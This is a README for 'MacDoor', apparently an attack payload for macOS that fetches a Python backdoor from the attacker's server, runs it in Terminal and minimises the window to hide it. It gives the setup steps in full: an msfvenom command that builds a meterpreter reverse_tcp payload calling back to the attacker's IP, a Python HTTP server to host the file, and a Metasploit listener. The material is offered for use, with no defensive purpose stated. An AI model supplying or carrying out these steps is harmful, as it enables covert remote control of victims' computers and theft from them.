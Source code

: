 # MacDoor - Python Backdoor Execution

    __  ___              ____                     
   /  |/  /____ _ _____ / __ \ ____   ____   _____
  / /|_/ // __ `// ___// / / // __ \ / __ \ / ___/
 / /  / // /_/ // /__ / /_/ // /_/ // /_/ // /    
/_/  /_/ \__,_/ \___//_____/ \____/ \____//_/     


* Author:     afsh4ck
* Version:    1.0
* Target:     MacOS
* Tested on:  Ventura 13.3.1
* Category:   Execution

# Description

Download a Python backdoor from our server, run it in terminal and minimize the terminal window.

# Steps

* Step 1: msfvenom -p python/meterpreter/reverse_tcp LHOST={your IP} LPORT=4444 -o backdoor.py  
* Step 2: mount a local server 'python3 -m http.server'  
* Step 3: msfconsole multi/handler listener open before the attack.

# Note

* You need to modify the script with your attacker IP and the port or your local server.

